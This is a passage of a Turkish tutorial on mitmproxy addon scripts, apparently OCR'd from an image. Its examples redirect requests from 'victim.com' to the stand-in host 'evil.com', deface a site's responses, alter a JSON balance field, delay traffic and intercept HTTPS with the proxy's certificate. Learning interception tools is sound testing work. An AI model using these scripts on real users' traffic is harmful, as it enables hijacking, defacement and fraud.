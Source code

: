 def request(flow: http.HTTPFlow):
 if "victim.com" in flow.request.pretty\_url:
 flow.request.url = flow.request.url.replace("victim.com", "evil.com")
📌 Bu betik, "victim.com" adresine giden istekleri "evil.com" adresine yönlendirir.

2. Yanıt (Response) Manipülasyonu
Bir HTTP yanıtını değiştirmek için response(flow) fonksiyonunu kullanabilirsiniz.
🔹 Örnek 4: Yanıt İçeriğini Manipüle Etme
Aşağıdaki betik, belirli bir sitenin yanıtlarını değiştirir:
python
from mitmproxy import http

def response(flow: http.HTTPFlow):
 if "example.com" in flow.request.pretty\_url:
 flow.response.text = "# Hacked by MITMProxy

"
📌 Bu betik, example.com sayfasını ziyaret eden kullanıcılara "Hacked by MITMProxy" mesajını gösterecektir.

🔹 Örnek 5: JSON API Yanıtını Değiştirme
Eğer bir JSON API yanıtını değiştirmek istiyorsanız:
python
import json
from mitmproxy import http

def response(flow: http.HTTPFlow):
 if "api.example.com/data" in flow.request.pretty\_url:
 data = json.loads(flow.response.text)
 data["balance"] = 999999 # Kullanıcının bakiyesini 999999 olarak değiştir
 flow.response.text = json.dumps(data)
📌 Bu betik, bir API çağrısında dönen JSON verisindeki "balance" değerini değiştirir.

3. Belirli Bir Trafiği Geciktirme
Eğer bir yanıtı geciktirmek istiyorsanız:
python
import time
from mitmproxy import http

def response(flow: http.HTTPFlow):
 if "slow-website.com" in flow.request.pretty\_url:
 time.sleep(5) # 5 saniye geciktirme
📌 Bu betik, "slow-website.com" adresine gelen yanıtları 5 saniye geciktirir.

4. HTTPS Trafiğini Manipüle Etme (SSL Passthrough Kapatma)
MITMProxy, HTTPS trafiğini analiz edebilmek için sertifika yüklenmesini gerektirir. Eğer HTTPS trafiğini manipüle etmek istiyorsanız:
bash
mitmproxy --set block\_global=false
MITMProxy sertifikasını yükleyin:
Tarayıcıya veya cihaza sertifikayı yükleyin (http://mitm.it adresinden indirebilirsiniz).
Yukarıdaki betikleri HTTPS sitelerine uygulayabilirsiniz.

5. Mitmweb ile Manuel Değişiklik Yapma
Eğer grafik arayüz kullanarak istekleri ve yanıtları düzenlemek istiyorsanız:
